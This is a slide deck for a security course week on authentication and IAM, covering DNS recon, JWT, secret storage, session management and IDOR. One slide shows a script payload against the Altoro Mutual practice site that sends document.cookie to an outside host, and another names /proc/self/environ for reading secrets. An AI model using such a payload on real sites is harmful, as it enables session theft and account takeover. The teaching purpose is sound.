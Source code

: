 ```yaml
---
title: "Week 3 - Auth and IAM"
layout: "bundle"
outputs: ["Reveal"]
date: 2023-02-24T02:57:21+10:00
---
```


{{< slide class="center" >}}

## Week 3

---

## DNS Recon Recap

* Walkthrough
  * [Sublist3r](https://github.com/aboul3la/Sublist3r)
  * [Word List](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

---

## Lecture Review

* Build a Flask app
* Python semantics
  * `__name__`, `__main__`, `__dir__`
* JWT
  * Next slide!

---

## More on JWT

* Anatomy of a JWT token
* What should be in a JWT token
* Pros and Cons
* Store secrets in a `.env`?
  * Why `.env`?

---

### DevOps, DevSecOps, DevSec..Oops..

{{% section %}}

> More on this in later weeks

* `.env` + `.gitignore`
* Scoped environment
* ... Why _not_ `.env`

---

If it's in the environment, the entire process can see it.. even if you unset it in the code* >:(

*: sometimes

> `/proc/self/environ`

{{% /section %}}

---

> An alternative

* External data sources
  * i.e. AWS Parameter Store
  * i.e. Google Secrets Manager
  * i.e. HashiCorp Vault
  * i.e. Apple KeyChain
* Centralised management
* Rotation + deployment at scale
* Access control

---

## Back to Altoro Mutual

jk the demo did work I was just dumb

> 👉 Login as admin first 👈

```html
<script>
  fetch("https://[...]/?v="+btoa(document.cookie))
</script>aaa
```

---

## How to be a script kiddie

* Python + `requests`
* Node.js + `node-fetch`
* JavaScript + `fetch`
* JavaScript + `XMLHTTPRequest`
* etc

---

## Learning HTTP Responses

* 2XX - Success
* 3XX - Redirect
* 4XX - Client Error
  * [418](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/418)
  * [451](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/451)
* 5XX - Server Error

---

## Session Management

* Last week, auth via cookies
* What does it mean to "log out"
* Broken session management

---

# IDOR

> Insecure Direct Object Reference


> 🚪🚪

---

## Logistics

Midterm Exam, Reports
